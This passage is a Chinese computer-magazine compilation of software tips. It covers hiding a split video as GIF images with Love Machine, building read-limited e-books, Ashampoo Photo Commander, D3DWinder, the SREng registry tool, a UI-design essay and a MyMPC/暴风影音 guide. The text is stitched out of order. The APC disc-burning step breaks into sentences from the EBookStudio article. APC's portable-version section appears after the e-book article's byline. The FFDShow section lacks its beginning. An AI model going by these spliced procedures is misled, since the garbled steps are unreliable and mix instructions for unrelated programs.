第二步：运行外挂插件程序RESWrite.exe，通过“资源管理器”，将GIF图片拖拽至该程序中间的窗格中。同时按照如图2所示画面进行设置。点击“Create LVM Plugin”，如果没问题，就会完成外挂程序template.dll的制作，如果提示错误，很可能是GIF图片尺寸过大。
第三步：将生成的template.dll改名(为了更好的识别)，比如007.dll。
第四步：将007.dll复制到Love Machine所在文件夹下plugin子文件夹中(该文件夹需自行建立)。
第五步：运行LoveMa.exe，进入“分割”标签，点击“待分割文件”下的“浏览”按钮，选择mm.wmv。在“分割大小”下设置好每个文件的尺寸。比如500KB，建议勾选“随机大小分割”，这样软件生成的照片尺寸为400KB～600KB不等，看起来也比较真实。在“扩展名”处设置生成的图片文件扩展名。勾选“LoveMe伪装”，点击“选项”按钮，在弹出窗口中勾选“使用图像外挂程序”，并在“外挂程序列表”中选择好程序。
第六步：点击“确定→分割”，完成视频文件的分割。

这样所有文件都分割完成了，分割后的文件由一个多个图片文档及一个LVM文件组成。现在将这些文件传给别人，在不知情的人眼中，它们只是图片而已。如果需要合并，则同样要使用Love Machine：打开Love Machine，点击“合并”标签，点击“LoveMa文件”下的“浏览”按钮，完成后点击“合并”按钮即可。
上面就是所有的文件保密术，如果大家还有更好的方法也欢迎投稿至software@cfan.com.cn进行交流。

(Lina)

## 今天我出“书”了

现在各大网站都在连载小说，你想不想把这些连载的小说整理在一起，集中成册，制作成一本电子书呢？平常在浏览网站时遇到非常想收藏的好文章，大家的方法可能各有不同，但其中最好的选择也是将它们收集成册，制作成电子书。同时，如果你文采飞扬或者经常写些文章，把它们整理成电子书放到网上让网友们共享，岂不乐哉，如果你对自己有十足信心，制作成收费的电子书，没准还能赚些外快。
比如我们在 http://book.sina.com.cn/nzt/lit/zhuxian/index.shtml 上看到了《诛仙》这本书，我们想将它制成电子书。

## 简单简单做本简单的电子书

现在比较流行的资料收集软件主要有两款，分别为“网文快捕”(下载地址:http://www.wizissoft.com/cn/)及“网博士”，它们的功能都非常强大，不仅能很好地完成收集、管理任务，并且最终还能制作成电子书。两款软件的不同之处在于：前者为共享软件，有使用时间的限制，功能强大，知名度更高，使用广泛；后者为免费软件，具有“网文快捕”的大部分功能。下面我们就来介绍一下“网博士”的用法。

- **“网博士”小档案**
  - 软件版本: 2.00 Beta9(Build126)
  - 软件大小: 4.91MB
  - 软件性质: 免费软件
  - 适用平台: Windows 9X/2000/XP
  - 下载地址: http://www.citom.com/download.htm

### 第一步：建“书”

安装好软件后，就要先建立书籍，不同书籍也起到了分类作用。点击菜单中的“书籍→新建书籍”，在“名称”中输入“诛仙”，并设置好保存“位置”即可。

### 第二步：收集“资料”

书已经建好了，现在就要开始往书里“写内容”了。“网博士”在安装后，就会在IE右键菜单中加入相应的菜单项。打开新浪网《诛仙》的每个链接，右击后，选择菜单中的“网博士保存网页”，从“位置”处选择保存的书籍，点击“确定”即可(见图1)。

> 小提示
> ★平常的资料除了网页上的，还有好友传过来的如DOC、TXT等其他格式的文件，对于这些资料，也需要导入相应书籍中，以方便整理。同样选择好书籍，点击菜单中的“文件→导入”下的“导入文件夹”或“导入文件”即可完成导入。
> ★如果浏览的是有右键限制的网页，可以使用IE工具栏中“网博士”的相应按钮来收集这些资料。

### 第三步：制作电子书

资料都收集好了，最后当然是要制作成电子书了。选择要导出为书籍的“诛仙”，点击菜单中的“文件→导出节点→导出为CHM文件”即可。

## Ashampoo Photo Commander彻底让ACDSee下岗！

ACDSee 经过长期发展，虽然功能有所增强，但体积越来越臃肿，启动速度越来越慢，虽然 7.0 有所改进，却仍难以掩饰这些诟病。笔者一直在寻找一款能完全代替ACDSee的看图软件，但许多同类软件虽然满足了体积小、运行快的要求，但却存在界面难看、功能不强等问题。直到笔者发现了Ashampoo Photo Commander(以下简称APC)，ACDSee被彻底地从系统中删除了。

Ashampoo Photo Commander小档案
软件版本: 3.5
软件大小: 11333KB
软件性质: 共享软件
适用平台: Windows 9x/2000/XP
下载地址: http://nj.onlinedown.net/soft/39083.htm

APC支持多国语言，并内置简体中文语言，第一次运行时，单击菜单“Configuration→Choose Language”(配置→选择语言)，在打开的语言列表中双击选择“Chinese(简体中文)”即可。同时软件还支持换肤功能，单击菜单“设置→选项”，打开“面板”选项卡，即可选择不同皮肤面板。

## 苹果味道有不同

运行APC，你会明显感觉到和ACDSee相比，启动速度特别快，几乎和ACDSee 2.4一样快，而且界面很有种“苹果味道”：简洁时尚！APC不仅界面布局和ACDSee基本类似，更重要的是，它甚至完全兼容ACDSee的操作方式：双击大图浏览、空格键或鼠标滚轮切换下一张、翻页键切换上下图、小键盘加减号缩放图片等，使得ACDSee老用户无需重新学习，就能立即上手。有相同点也有不同点，APC有着比ACDSee更为贴心的设计。

1. APC窗口左下角的预览窗格左侧有一个缩放条，这样在这个小预览窗格中也能放大看到图像细节(见图1)，而不必像ACDSee那样必须全图预览。当预览窗格中不能显示全部图像时，还可以使用APC的滚轴特技，按住鼠标左键在预览图上拖动，图片会随着你拖动的方向“漫游”图片，其中的方便之处只有亲自试用才能体会到。而在预览窗格右侧还有一个竖向工具栏，里面有旋转、反转、镜像、选取放大等常用功能，极大地方面了图片的即时浏览。

> > 图 1

2. 点击工具栏中的“全屏幕”按钮或按下“Alt + 回车键”可以切换到全屏浏览模式，和ACDSee生硬的图片切换不同的是：图片之间会自动添加动态切换效果，让浏览更舒服。而且在浏览过程中，屏幕最下方会提示该图片的详细路径和文件名，让你能随时了解当前显示的是哪张图片。如果图片过大，屏幕显示不完整，这里你同样可以使用APC的滚轴功能“漫游”图片。

**小提示**
如果在工具栏中没有找到“全屏幕”按钮，那是因为APC默认使用了简易操作模式，只需打开菜单“设置→切换简易/专家模式”，重新选择“专家模式”即可。同时在工具栏上单击鼠标右键，选择“自定义”可以设置专家模式下工具栏中出现的按钮。

3. APC不仅支持 60 多种图像格式，而且支持常见音/视频格式，在右边文件列表窗格中可以直接单击图像、音频、视频标签来查看不同类型的文件，而不必像在ACDSee中那样必须使用文件过滤功能显示。

### 带批量修改的批量转换功能

图片转换是ACDSee中经常用到的功能，APC当然也少不了，不过APC支持转换时对图片进行修整，让该功能实用性大增。

第一步：在右边的文件列表中选择要转换的文件，然后单击菜单“工具→批量转换”打开转换窗口。

第二步：在右下角的“输出格式”下拉框中选择转换后的文件格式，在“输出目录”中设置好输出的目录。如果你需要加入其他效果，可以在窗口左侧进行调整，比如改变图像大小、亮度、对比度，进行模糊、锐化等处理，添加边框、水印等效果(见图2)。这些操作要在ACDSee中完成是相当麻烦的，而在APC中则可以一步完成

第三步：单击“开始”按钮进行转换。

### APC也能玩刻录

APC还集成了光盘刻录功能，它甚至能直接把图片制作成漂亮的电子相册光盘。

第一步：在默认情况下，APC的刻录接口并未启用，需要打开APC的安装目录C：\Program Files\Ashampoo\Ashampoo Photo Commander 3\CDBurn，运行一下“ashDriverSetup.exe”安装刻录接口驱动程序。

第二步：在APC右边的文件列表窗格中选择要制作的图片，单击菜单“工具→新建幻灯片/刻录至CD”打开设置窗口。

第三步：将“输出类型”设置为“刻录到CD/DVD”(见图3)，并设置适当的“延迟”时间，一般设置为“3000”毫秒，“顺序”可以选择“向后”，为了达到更好的效果，还可以添加使用背景音乐。

**小提示**
单击“添加文件”按钮可以继续添加其他目录中的图片文件。

第四步：在刻录机中放入一张空白盘，单击“开始”按钮进入刻录界面，“Change码”中的字符事，并输入“当读者输入错误密码时显示的信息”及“当超过打开次数后弹出的信息”。

## 好书有价，制作阅读限制的电子书

如果你辛苦收集下来的资料需要别人注册一下，或者你是一个好作者，写了一本小说(或是其他有价值的文章)，可以考虑在网上销售它，这时就需要制作一本像共享软件一样的电子书，比如：限制阅读时间或是阅读次数，这时可以试试下面介绍的EBookStudio。

EBookStudio可以轻松将多个HTML网页格式的文件打包制作成一个可执行文件，读者不需要另外安装任何阅读器，直接执行这个可执行文件就能观看内容。

EBookStudio小档案
软件版本: 0.01
软件大小: 1.58MB
软件性质: 共享软件
适用平台: Windows 9x/2000/XP
下载地址: http://www.newhua.com/cfan/200515/ebookstudio.rar

在制作电子书前，需要将“网文快捕”或“网博士”中的收集资料先导出为HTML文件，然后再进行下面操作。

网文快捕：选中书籍后，点击菜单中的“文件→导出→导出到文件夹”，在“选择文件夹”下设置好指定的文件夹，然后点击“导出”按钮即可。

网博士：选中书籍后，点击“文件→导出节点→导出到文件夹”，设置好导出目录，“确定”即可。

**小提示**
网文快捕及网博士在导出时，都会生成一个索引页，该索引页可以用于EBookStudio中的“起始页面”。
下面我们就来开始制作一本有 10 次免费试看的电子书，超过 10 次后需要注册才能观看。注册方式为用户名、密码一一对应。

第一步：打开EBookStudio，在“选择根目录”后设置好资料刚刚导出的目录，在“起始页面”中选择索引页(见图2)。

> > 图 2

第二步：在“文件源”栏下选择添加的HTML文件及对应的文件夹，右击后，选择“添加到目录”，然后在“目录”栏下进行排序或修改。

**小提示**
在窗口左侧的“关于页面”、“自定义界面”及“浏览窗口选项”项，可以设置电子书的作者、主页、版权、启动画面(BMP格式图片)、图标，对资料进行保存等。

第三步：在窗口左侧点击“查看次数”，在“这本电子书将会在打开[ ]天后过期”中输入“10”，同时在“过期后”下拉菜单中选择“需要读者输入密码才能继续阅读”。

第四步：在“密码构成”下拉菜单中选择“用户名和注册码”，然后记下“本电子书编号”中的字符串，并输入“当读者输入错误密码时显示的信息”及“当超过打开次数后弹出的信息”。

第五步：在窗口左侧点击“输出文件”，设置好“输出文件”后，点击“编译工程”就可以生成最终电子书了。

第六步：电子书生成后，还要点击“文件→保存工程”菜单项，将制作的设置保存下来，方便以后修改电子书编码。

第七步：以后当读者发送给你所用的电子书注册用户名后，你需要先用软件目录下的KeyCreator.exe，点击“通过电子书工程获得”，选择对应的EBP电子书工程文件，在“保护方式”下选择“用户名和注册码”，点击“下一步”，接着在“输入用户名”中填好用户名，点击“添加→生成注册码”即可。

### 网络大补贴

你的电子书资料来自哪？
搜狐读书频道:http://book.sohu.com/
这里连载的书籍非常多，而且也很快，有不少新书。
新浪读书频道:http://book.sina.com.cn/
这里有很多授权转载的小说，有些更是独家授权，非常不错的。
网易文化频道:http://culture.163.com/
这里有很多网友的原创文章，同样也有很多连载小说。
太平洋电脑网软件频道:http://www.pconline.com.cn/pcedu/
这里有很多软件教程，更有很多优秀的教程及文章。
（辽宁 二手三好街）## 绿色版，体积更小

其实APC还是一款绿色软件，只需把安装目录中的所有文件直接复制到其他目录就可以做成绿色版本，而且还进行了一些精简，减少其体积，例如删除Help和Uninstall两个目录，以及Lang目录中的其他语言文件、Skins目录中不需要的皮肤文件，如果你不需要刻录功能，还可以再删除CDBurn目录，这样精简后制作的绿色版本APC仅有5MB多点，比起庞大的ACDSee来说，真的是非常小巧了。当然，APC还有许多功能，例如设成桌面、图片修整、创建网页相册、屏幕抓图、批量重命名等，这里就不再一一介绍了。可以说，ACDSee具备的功能，在APC中基本都能找到同样功能，而且设计更贴心，操作更方便。（河南 徐海斌）

## 为所有游戏添加窗口模式

现在游戏大多使用DirectX模式，因此很多游戏都无法使用窗口模式运行，这就造成了我们很难一边聊天一边游戏。近日，笔者发现了一款不错的软件，它可以很容易地将一些只能全屏的程序窗口化运行。它就是我们今天的主角——D3DWinder。

D3DWinder的小档案
软件版本：1.88汉化版
软件大小：422KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://nj.onlinedown.net/soft/39421.htm

这里以魔兽争霸为例开始我们的全屏游戏的窗口化演习。

第一步：把下载的压缩包解压至任意目录，运行D3DWinder.exe。
第二步：点击软件界面的“+”按钮，然后选择魔兽争霸安装目录里的WAR3.EXE文件。
第三步：右击添加后的WAR3.EXE图标，选择“设置”进入详细设置，点击“辅助DLL”旁边的“打开”，在弹出的对话框中选择D3DWinder目录中的“D3dhook.dll”，“确定”即可（见图）。
第四步：回到主窗口，点击三角按钮后，双击WAR3即可打开魔兽争霸窗口版进行游戏了。（山东 日月双星）



## System Repair Engineer——系统修复的瑞士军刀

许多病毒、木马、恶意网页都会对系统注册表进行改写，造成系统运行不正常。杀毒软件虽然都附带一些注册表修复工具，但为了防止一些用户误操作，大多数软件附带的注册表修复工具都以傻瓜化为主。如果你觉得自己是个高手或希望使用更强大灵活的注册表安全工具，可以试试这样一款免费软件——System Repair Engineer，简称SREng。

System Repair Engineer小档案
软件版本：1.0.0.262
软件大小：260KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.kztechs.com/sreng/download.html
软件备注：该软件分为Windows 9x版和Windows 2000/XP版，下载时应注意区分。

1.  启动项目检测
熟悉Windows的朋友一定都知道运行Msconfig命令可以查看系统的启动文件、系统初始化文件等，但其功能比较有限，并且在一些系统上并没有此命令。而SREng提供了强大的查看及修改功能。点击主界面上的“启动”将能看到“注册表”、“启动文件夹”、“Win.ini”等多个启动位置的信息，同时该软件还提供了查看服务程序的功能。

Windows虽然自带了服务的查看工具，但它只能显示所有的服务，并且不能删除服务。SREng可以屏蔽掉系统自带的服务程序，只显示第三方软件的服务程序，并且允许用户删除它们。

2.  直观的修复功能
点击界面上的“系统修复”功能，可以看到软件的修复界面。SREng软件提供了对“文件关联”、“Windows Shell”、“Internet Explorer”等项目的修复。一些病毒、木马常常会禁止用户使用注册表编辑器，通过这个软件可以很容易地进行恢复。

3.  简洁的智能扫描功能
经常研究系统安全的朋友一定知道HiJackThis这个软件，但由于其功能强大操作繁琐常常使一些初级用户望而却步。SREng大大简化了系统信息的提取步骤，单击主界面上的“智能扫描”后选择需要提取的项目，然后简单地点击一下“扫描”按钮。几秒钟以后系统的一些关键信息就被提取出来了。

4.  好用的“我的扩展”功能
现在修复注册表的工具非常多，但它们只能针对自己软件内置的规则进行修改，在实际使用时往往不能让人满意。SREng提供的“我的扩展”功能通过提供外部的一个配置文件，让用户把自己的配置信息保存下来，而且随时可以进行编辑、新建、删除操作。换句话说用户可以根据自己的需要去DIY这个软件。

总结：该软件是一款不可多得的注册表安全类工具，文件小巧，功能强大。美中不足的是该软件并没有提供备份功能，因此用户使用该软件时应谨慎，防止误删除而无法恢复。该软件为免费软件，但使用180天后会提示过期，需要向作者免费索取注册码才可以继续使用。（瑞星工程师 史瑞）

## 由“魔镜还原”创作探讨软件界面设计

“魔镜还原”是一款可以方便地备份和还原操作系统的小软件，它专为电脑初学者所设计。初学者很可能不会设置CMOS以光盘启动，不会在Windows 2000或Windows XP下启动到纯DOS环境，也害怕英文的GHOST由于操作不慎而造成不可挽回的损失。“魔镜还原”可以帮助他们安全、方便地进行操作。自去年下半年发布以来在短时间内得到众多用户的好评，这是我在创作之初没有预料到的。软件可以在www.onlinedown.net/soft/35229.htm下载。

先来看看我的软件是什么。图1展示了软件主界面。首先需要在“安装启动程序”页面点“开始安装”按钮来安装启动程序，其实就是根据当前Windows的类型修改和添加Windows的启动文件，使之可以接受程序的控制。安装启动程序在几秒钟后完成，然后就可以在任何需要的时候选择“备份系统”页，设定备份源盘和目标盘，最后点“开始备份”，软件自动重启Windows后开始通过GHOST备份，完成后自动重启回到Windows，后面整个过程无需人为干预。备份完成后可以在需要时用“恢复系统”页的“开始恢复”按钮恢复操作系统，如果Windows故障严重无法正常启动，也可以在电脑启动时选择“魔镜还原”，进入DOS中文界面进行恢复。不过如果遭到灾难性的破坏比如系统盘被格式化或分区表被破坏，那就回天乏力了，当然这种情况相当少见。详细的使用方法和一些问题解答可以参考软件的帮助说明。

这个软件服务于谁？魔镜还原在技术方面并没有突破，我觉得软件成功的原因主要就是从用户的角度出发进行界面设计。下面我从魔镜还原的创作过程谈起，谈一谈软件界面设计的心得。

最初偶然在网上找到一款系统还原的软件，用了一下很感到吃惊，比用DOS下的GHOST方便了许多，于是一时兴起搜索许多同类软件来试用，对比之下发现各有利弊。有的只适用于某一操作系统，有的会修改启动扇区或调整分区而不够安全，有的操作繁琐不便，有的不支持多备份、多硬盘。由此便产生了自己开发一款集大成的还原软件的念头，它对系统要求非常低，而且用起来特别简单方便。经过一段时间的技术学习和开发，现在已基本实现了这一想法。

其间，我深深体会到软件设计需要注意的一点，那就是定位用户对象。用户对象的定位是软件功能设计和界面设计最重要的一步，但许多软件很少考虑到这点。定位用户对象就是说软件是面向哪一类用户的，用户的电脑知识水平、某行业的知识水平、用户的年龄层次等，这是设计的基础。而不少软件作者只考虑软件功能要丰富，不加筛选一股脑地放在用户自己选用，其实是对用户的不负责。“好软件”的基本一点就是：以用户为本，实现的是用户群需要的功能，而不是展示你能够实现的功能。有这样一句话：对鸟儿来讲，米粒要比钻石更有吸引力。

我如何设计软件界面？一个软件项目只要不是太小，就应该把软件界面设计与编程工作分人实现，我国共享软件创作中大多编程人员本身就是设计人员，所以多掌握一些界面设计知识将为软件走向成功增加一个重要砝码。软件界面设计要注意的方面很多，最终的目标是让使用者舒服、少出错误地完成工作，在这里探讨几点自己的体会。

### 1. 帮助信息

帮助信息包括详细的说明文档，以及针对错误信息提供的解决方案。因为越是初级用户越容易迷惑于错误提示信息，一个好的提示可能会解开用户的疑团。
提示“数据无法访问！”可能使用户对问题无从下手，如果两款软件提示信息如上，相比之下，第二款的提示信息足以成为用户选择这款软件的原因。

### 2. 细说确定对话框

同类软件的比较，基本功能相似之下，用户选用哪一款软件将从细节中见分晓。比如最常见的确定对话框学问就很大。
(1) 按钮位置。软件中的按钮位置应该按统一方式布局，对话框中应该是确定在上、取消在下，或确定在左、取消在右，并且可以用回车和ESC键使用两个按钮，这是Windows软件一致的风格，在这方面的标新立异只能让用户不适应，你可以看到这种区别。
(2) 提示文字。提示文字显示“您确定删除吗？”是不够的，有些甚至提示“您确定吗？”使提示仿佛画蛇添足。提示文字应该是防止用户疏忽而显示的不继续下去的理由，信息要多。如“您确定删除‘六味地黄丸’吗？”或“过账后此单将不可修改，确定过账吗？”。另外，按钮上的文字也要表示将要进行的工作如“删除”或“查找”，不要一律写“确定”。
(3) 是否需要。确定对话框不要用得太频繁招用户烦，大部分情况应该自动选择用户最可能需要的功能。比如有些软件每个子窗口关闭的时候都让用户选择：“单据过账”或“临时保存”或“不保存”，完全可以直接临时保存，其他情况可以用窗口中提供的单据过账和清空按钮来实现。

### 3. 精简按钮

有些软件界面设计的按钮杂多，无论怎样排列都给使用者带来烦躁的感觉，例如进销存软件界面(见图2)。
这里提供一些优化的思路：



(1) 减少按钮。保存、放弃按钮在修改状态下才出现；前单、后单按钮在打开的浏览窗口中出现；刷新按钮通过修改程序根本用不到；价格调整、税率调整与销售单无关不该出现。
(2) 按钮合并。打印和打印样式去掉，预览打印按钮直接显示预览窗口，预览窗口中可打印和选择样式；多种保存退出方式合并成最常用的一种；查看库存、成本、售价功能合并成一个带菜单的按钮，因为使用频率不多，更好的方法是在选择商品时直接看到库存和价格，不需要按钮。
(3) 调整位置。对单据的操作按钮放在单据右侧，对明细操作的按钮放在明细右侧，更整洁也更容易理解。
其中的单位信息、往来账目等功能还可以精简。如果经过优化后按钮还是很多，就需要修改操作流程，比如明细的操作成为单据操作的二级窗口等。

### 小结

软件界面设计还有许多大家熟知的注意事项，如整体颜色要统一，不要用太多的颜色和字体，不要使用刺目的颜色，控件排列要整齐等，不再赘述，只求抛砖引玉，供大家探讨。

最后借用《细节决定成败》中的一句话告诫大家：“一款产品如果被淘汰，它必定不是被对手所淘汰，必定是被用户所淘汰”。
(河北 苗辉)

## MyMPC，掀起影音播放的风暴

### 小知识
关于MyMPC · 暴风影音

MPC的全称是 Media Player Classic，它是微软 Microsoft Media Player 6.4(简称WMP)的一个外壳程序，集成了网上众多热心的程序员开发的各种解码器，使得 Media Player能够播放所能见到的绝大多数格式的影音和流文件，包括RealMedia、QuickTime、MPEG-4 (DivX、XviD、3ivx、MP4、FFVFW...)、MPEG-2、VP3/6、AC3/DTS/LPCM、OGG/OGM、Matroska、APE、FLAC、AAC、MPC、FLC、3GPP/AMR、mkv、字幕等。

我们常看到的暴风影音版和精品DIY版是国内软件作者基于MPC开发出来的，对MPC进行了汉化并添加了更多的解码器，一般将它们统称为MyMPC系列解码软件。其中暴风影音版具有安装、卸载、维护和修复功能，适合对稳定性要求比较高和不想自己制作专用解码包的菜鸟级用户使用；而精品DIY版则为全开放式架构，可以方便灵活地自行定制组件打包出自己的版本，比较适合有一定动手能力，喜欢打造自己独特版本的用户使用。本文中的实例基本上是在暴风影音版上完成的。

### 实例1：初试啼声，影音世界起风暴

MyMPC · 暴风影音小档案
软件版本：5.07RC3
软件大小：16200 KB
软件性质：免费软件
适用平台：Windows 9X/ME/2000/XP/2003
下载地址：http://nj.onlinedown.net/soft/26699.htm

第一步：双击下载所得的文件 (StormCodec5.07RC3.exe)启动安装程序，语言选择Chinese(Simplified)项，单击OK就开始安装了。暴风影音提供了四种安装模式，一般选择“典型安装”项即可。安装结束前暴风影音还会要求你“选择你需要关联于MPC或者自定义播放器的文件格式”，直接单击“确定”使用默认值即可，以后可以随时修改文件关联的。最后单击“完成”结束暴风影音的安装。

小提示
安装过程中，如果选择的是“典型安装2”，则不会安装 RealMedia 和 QuickTime 组件，这是为了防止暴风影音与电脑中其他的播放器相冲突，但这样就无法播放 RM、RMVB 以及 MOV 等类型的文件了。另外，你也可以选择“自定义”安装，只选择最流行最常用的媒体解码组件，这样会占用较小的空间，对初学者来说，不推荐使用“自定义”项。

第二步：安装完成后，在资源管理器中直接双击影音文件就可以打开暴风影音进行播放了。也可以双击桌面上的 Media Player Classic 图标启动它，然后执行“文件→打开”命令(快捷键 Ctrl + O)调出打开对话框，单击“打开”右侧的“...”按钮，找到要播放的文件打开即可。

第三步：在暴风影音主界面下方的工具条中有一列按钮，如播放、暂停、停止、快进、快退、声音大小等，这些大家都比较熟悉了，不再细说，下面说几个常用的快捷键：
空格键：播放或暂停
↑ / ↓：增大或减小音量
Ctrl + M: 静音

第四步：在暴风影音中可以方便地调整视频画面的大小，只需简单设置几步就可以在家中享受电影院里的宽银幕效果了。
1.  右击正在播放的视频，在右键菜单“视频框架”下面包含了多个调整视频大小的选项。比如：如果觉得视频画面太大，可选择其中的“半数尺寸”，这时视频画面就会缩小一倍；当然，如果觉得视频画面太小，则可以选择“双倍尺寸”使画面变大。
2.  按 Alt + 回车键可全屏播放，然后右击播放中的视频，在右键菜单“全景和扫描”中选择“调整至 16:9 电视”、“缩放至宽银幕”或者“缩放至超宽屏幕”选项，即可达到宽银幕的效果了。

小提示
定制自己的屏幕大小
如果上面完成的宽银幕效果仍然没有满足你的要求，可以继续选择“全景和扫描”中的“编辑”命令打开编辑对话框，单击“新建”按钮，根据需要设置“位置”和“缩放”栏中的参数，并为该方案起个名字(如：自定大小)，单击“设定”确认，再单击“保存”返回主界面中。以后在右键菜单中，就会发现多了一项“自定大小”，选择它就可以将屏幕调整为你所想要的大小了。

### 实例2: CD/VCD/DVD，一个也不能少

除了播放硬盘上的影音文件外，暴风影音还可以播放 CD/VCD/DVD，操作非常简单。

第一步：将 CD/VCD/DVD 光盘放到光驱中，运行暴风影音，单击“文件”菜单项，如果是CD或VCD，则点击其下“打开光驱”子菜单中的光驱设备名称；如果是 DVD，则直接单击“文件→打开 DVD”(快捷键 Ctrl + D)，即可播放影音光盘了。

第二步：当播放的是影音光盘时，“导航”菜单下的大多数项目就会变成可用状态，执行“上一段”、“下一段”、“跳至”等命令，便可以有选择地欣赏光盘中的影音片段了。如果播放的是 DVD 光盘，还可以通过“导航”菜单上的“标题菜单”、“字幕菜单”、“章节菜单”等命令对影片播放进行更多的控制。

第三步：为了让 DVD 光盘放进光驱时能自动播放，可进行如下操作：在暴风影音主界面上，执行“查看→选项”命令打开选项对话框，点选“播放器”下的“格式”，然后在窗口右下方“自动播放(仅支持 XP)”项中，单击选中“DVD”(另外几个选项分别对应 CD/VCD 及包含了影音文件的数据光盘等)，确定后退出。

第四步：以后再看 DVD 的时候，只要将 DVD 光盘插入光驱中，系统就会打开自动播放对话框，其中会增加“Play DVD Movie 使用 Media Player Classic”项，单击它就可以自动播放 DVD 了。

### 实例3：摇身一变，我是一款时尚的Flash播放器

使用默认的 Macromedia 的 Player 播放器来观看 Flash 动画，会发现它的播放控制少得可怜，连起码的暂停、快进、后退的功能都没有，如果想重复观看中间某段有意思的情节，每次都得从头再来，非常不方便。我们不妨使用暴风影音来播放 Flash，就不会有这样的苦恼了。

第一步：在暴风影音中，单击“查看→选项”菜单命令打开选项对话框，单击“播放器”下的“格式”，在右侧格式列表中选中“Shockwave Flash 文件”项，确定后返回。
第二步：双击 Flash 动画文件就可以在暴风影音中播放了，播放时可进行播放、暂停、停止、步进等操作，拖动播放滑钮可以快速定位。

### 实例4: 精彩节目连连看(听)

你是否想把精彩的节目(如精选的MP3歌曲；或者一些小电影片段等)连起来一起播放，免去一个一个打开文件之苦。借用暴风影音的播放列表功能，可以轻松实现这一点。

第一步: 按 Ctrl + O 键调出打开对话框，单击“打开”后面的“...”按钮，然后在打开对话框中，配合使用 Ctrl 和 Shift 键选取多个你想连在一起观看(或听)的影音文件，打开它们。

第二步: 按 Ctrl + 7 键调出播放列表窗口，可以看到刚才选中的影音文件都显示在列表中了。我们既可以按顺序播放，也可以随意双击其中的某个文件挑选着播放。右击播放列表窗口，选择“随机顺序”便可以随机播放列表中的文件了。

第三步: 右击播放列表窗口，选择“另存为”命令，将当前列表保存起来，如保存为“网络流行歌曲精选.mpcp”，其中后缀名.mpcp是暴风影音默认的格式。以后若想要欣赏这个列表中的节目，只需按 Ctrl + O 键调出打开对话框打开这个列表文件就可以了。

第四步: 上面的方法有一个问题，就是不在同一文件夹中的文件没法加到列表中。用记事本打开上例保存的“网络流行歌曲精选.mpcp”，会发现它不过是一个文本文件。按照它的格式输入其他文件夹下的影音文件名即可。如果你不愿意自己输入，可将不同文件夹中的影音文件挑选出来制作成单独的列表，最后再把它们合并就可以了。

### 实例5: 让声音更加悦耳动听

家里的电脑买了很长时间，用那对杂牌音箱来听音乐真是一种“折磨”，声音听起来非常的发闷。可是自从使用了暴风影音后，又让我的那对音箱重新扬起了悦耳的声音。

第一步: 用暴风影音打开一段MTV，然后单击菜单“播放→音频→选项”命令打开音频切换器。

第二步: 选择“启用自定义声道映射”项，在扬声器配置上输入通道数目，接着在下方的表格中根据声音的输出通道与你的音箱实际摆放位置选中表格中的相应项。如图1所示，是我为自己的2.1音箱所做的设置。



第三步: 单击“应用”按钮或单击某项并同时按下Shift键，就可以使改动立即生效了，这时你会发现声音跟原先的效果大不一样，变得非常动听。在实际选择的时候，大家可以根据自己听到的音乐感受来多尝试不同的调整方案。

小提示
在音频调整表格中，X轴表示的是声卡的输出声道，Y轴表示的是你的音箱或耳机实际的摆放位置，默认情况下是一一对应的，也就是1对应前左、2对应前右，依此类推。
有些电影播放起来左右声道各是一种语言(比如是中文和英文，或者是国语与粤语)，这样听起来会很乱。其实使用上面方法就可以解决这一问题: 根据自定义声道映射表格中X轴与Y轴的关系，假如想让两只音箱同时发出前左声道的声音而屏蔽前右声道，只需简单地将表格中的对应关系变成前左、前右都勾选在1列即可，这时声卡的左声道将同时输出到你的左右音箱中，右声道将被屏蔽，反之亦然。让两个喇叭同时播放同一个声道的声音，就可以形成一个虚拟的立体声了。

### 实例6: 暴风影音设置大管家

暴风影音集合了大量的影音插件，设置起来比较复杂，而通过它自带的设置程序来进行，则会方便很多。

第一步: 单击“开始→所有程序→暴风影音5→暴风影音综合设置”打开暴风影音综合设置对话框(见图2)。这里以任务的方式来帮助我们设置，简单明了。



第二步: 在“任务”区选中所有选项，然后单击“下一步”，首先进入到了文件关联设置窗口，选中需要关联的文件类型，取消不再需要关联的文件类型，确定后单击“下一步”。

第三步: 接下来进入到了RealMedia设置窗口。暴风影音对Real媒体的渲染模式有两种: RealMedia和DirectShow。这两种方法各有优缺点，采用默认的DirectShow方式即可。同时在这里还可以对Real媒体进行网络设置，以求达到最好的播放效果。设置好后，单击“下一步”。

第四步: 在MPEG-4解码设置窗口中，可以进行MPEG-4解码器的切换、调整和兼容设置。

第五步: 接下来一步设置扬声器和声道。实例5中，对音频的设置较多人工干预，这里借用向导功能，设置起来更简单。根据音箱、声卡的情况进行相应的选择(如：“2声道立体声”)。如果勾选并启用“音频正常化”选项，还可以解决由于声卡硬件/驱动或解码器的兼容性问题而导致在播放一些包含大动态音频时出现的爆音和杂音。

第六步: 最后一步用来设置备份设置文件，指定好位置确定即可。综合设置里还有其他一些选项，限于篇幅就不详细介绍了。



用一些专业的DV后期处理软件对其进行处理，又是一件非常复杂而又麻烦的事情。其实对于这样的问题，我们完全可以利用暴风影音中的FFDShow来进行解决。

### 小知识
什么是FFDshow?

FFDshow实际上就是一个全面的MPEG-4解码器，支持众多的格式解码，如XVID、DIVX3、DIVX4、DIVX5、H.264、MJPEG、MPEG-2、DV、HuffYUV、MS MPEG4 V1/V2/V3等，同时它还提供了丰富的滤镜、降噪、柔化、锐化、Postprocessing、亮度、裁剪等功能，并且对MP2、MP3、Vorbis、AAC、AC3、DTS、AMR、FLAC等音频解码的支持和字幕的支持也十分的好。除此之外，它还可以对画面进行再处理，以达到更好的质量。

第一步: 首先进入暴风影音综合设置程序中MPEG-4解码设置选项窗口，选中“FFDshow特殊设置”中的“启用RAW视频解码”，单击“确定”按钮使其生效。这样我们在对其他视频解码器进行解码工作的时候，FFDShow也会同时启动。但它不是作为解码器，而是作为画面输出的处理工具，可以实现裁切、反交错、柔化与去噪、亮度调整等功能。

第二步: 在暴风影音中，选择菜单栏中的“播放→滤镜→FFDShow MPEG-4 Video Decoder”打开它的属性对话框。在对话框窗口的左侧，我们可以选择对画面进行处理的选项，比如选中“柔化与降噪”选项，在其右侧的窗口中就会出现大量的和“柔化与降噪”相关的参数调节，我们可以根据画面的实际情况对这些参数进行适当的调节(见图4)。另外在每一个设置选项中都有一个“复位”按钮，如果设置后出错，只要单击这个按钮就可以恢复该项目原始的设置了。



